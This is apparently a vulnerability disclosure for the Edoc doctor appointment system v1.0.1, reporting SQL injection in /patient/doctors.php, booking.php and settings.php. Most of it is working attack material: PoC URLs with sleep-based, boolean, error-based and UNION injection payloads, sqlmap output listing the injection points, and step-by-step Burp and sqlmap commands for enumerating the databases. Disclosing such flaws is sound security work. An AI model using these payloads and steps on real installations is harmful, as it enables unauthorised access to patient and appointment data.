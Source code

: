 # Edoc-doctor-appointment-system v1.0.1  was discovered to contain multiple SQL injection vulnerabilities via /patient/doctors.php , /patient/booking.php , /patient/settings.php .Allowing remote attackers to execute the sqli attack.

## 1 . Blind SQLi in /patient/doctors.php 

PoC

```
http://ip/patient/doctors.php?action=view&id=1' AND (SELECT 7788 FROM (SELECT(SLEEP(5)))gIPf)-- MVmI
```



vendor : https://github.com/HashenUdara/edoc-doctor-appointment-system

Vulnerability Position : http://ip/patient/doctors.php 



Log in to the http://ip/login.php

Visit http://ip/patient/doctors.php  ,  will access the page of the module.

Use burp suite to capture request packet , and then click the View button.

![image-20220718142415157](.\img\image-20220718142415157.png)



![image-20220718142655610](.\img\image-20220718142655610.png)



Copy request packet to sqlmap root path , and revise id=1*  , save as 2.txt.

![image-20220718143251333](.\img\image-20220718143251333.png)



Use `python sqlmap.py -r 2.txt --threads 10 --batch --level 3 --risk 3 --dbms mysql --technique B --dbs`  to run sqlmap.

![image-20220718150104521](.\img\image-20220718150104521.png)

![image-20220718143826189](.\img\image-20220718143826189.png)





## 2. SQLi in /patient/booking.php 

PoC

```
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://ip/patient/booking.php?id=1 AND 7686=7686

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://ip/patient/booking.php?id=1 OR (SELECT 3032 FROM(SELECT COUNT(*),CONCAT(0x717a6a7071,(SELECT (ELT(3032=3032,1))),0x7170787a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://ip/patient/booking.php?id=1 AND (SELECT 8632 FROM (SELECT(SLEEP(5)))HCPI)

    Type: UNION query
    Title: Generic UNION query (NULL) - 13 columns
    Payload: http://ip/patient/booking.php?id=-4821 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x717a6a7071,0x4247754365636f69425457434250756e6877504d52795463504f436950496d726376685a64465049,0x7170787a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```



vendor : https://github.com/HashenUdara/edoc-doctor-appointment-system

Vulnerability Position : http://ip/patient/booking.php 



Log in to the http://ip/login.php

First , visit http://ip/patient/schedule.php , and then use burpsuite to capture request packet , click Book Now button.

![image-20220718144354012](.\img\image-20220718144354012.png)



![image-20220718144910131](.\img\image-20220718144910131.png)



Copy request packet to sqlmap root path , and revise id=1*  , save as 2.txt.

![image-20220718145003623](.\img\image-20220718145003623.png)

Use `python sqlmap.py -r 2.txt --threads 10 --batch --level 3 --risk 3 --dbms mysql --dbs`  to run sqlmap.

![image-20220718150315609](D:\Pyproject\cve\bug_e\edoc-doctor-appointment-system\img\image-20220718150315609.png)







## 3. SQLi in /patient/settings.php

PoC

```
sqlmap identified the following injection point(s) with a total of 177 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://ip/patient/settings.php?action=edit&id=1' AND 3197=(SELECT (CASE WHEN (3197=3197) THEN 3197 ELSE (SELECT 9367 UNION SELECT 1506) END))-- -&error=0

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://ip/patient/settings.php?action=edit&id=1' OR (SELECT 3493 FROM(SELECT COUNT(*),CONCAT(0x7162786a71,(SELECT (ELT(3493=3493,1))),0x717a6a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ITWX&error=0

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://ip/patient/settings.php?action=edit&id=1' AND (SELECT 6213 FROM (SELECT(SLEEP(5)))kZmv)-- SfKb&error=0

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: http://ip/patient/settings.php?action=edit&id=-6866' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7162786a71,0x78415242537376577872514272566a74536270524449464568776d4e5a577a57524e676b62644d57,0x717a6a7071)-- -&error=0
---
```





vendor : https://github.com/HashenUdara/edoc-doctor-appointment-system

Vulnerability Position : http://ip/patient/settings.php



Log in to the http://ip/login.php

First , visit http://ip/patient/settings.php , and then use burpsuite to capture request packet , click Book Now button.

![image-20220718150601739](.\img\image-20220718150601739.png)



![image-20220718150651966](.\img\image-20220718150651966.png)

Copy request packet to sqlmap root path , and revise id=1*  , save as 2.txt.

![image-20220718150822191](.\img\image-20220718150822191.png)

Use `python sqlmap.py -r 2.txt --threads 10 --batch --level 3 --risk 3 --dbms mysql --dbs`  to run sqlmap.

![image-20220718151328691](.\img\image-20220718151328691.png)
